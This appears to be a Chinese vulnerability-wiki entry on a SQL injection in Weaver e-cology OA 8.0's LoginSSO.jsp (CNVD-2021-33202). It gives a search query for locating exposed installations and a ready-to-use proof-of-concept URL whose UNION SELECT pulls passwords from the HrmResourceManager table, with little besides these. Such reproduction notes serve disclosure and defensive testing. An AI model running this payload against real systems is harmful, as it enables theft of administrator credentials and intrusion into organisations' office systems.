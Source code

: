 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184449317.png)

验证POC

```php
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![img](/assets/PeiQi-Wiki/img/1636962109612-27c439fe-00a4-4d90-89ca-737b2ce98400.png)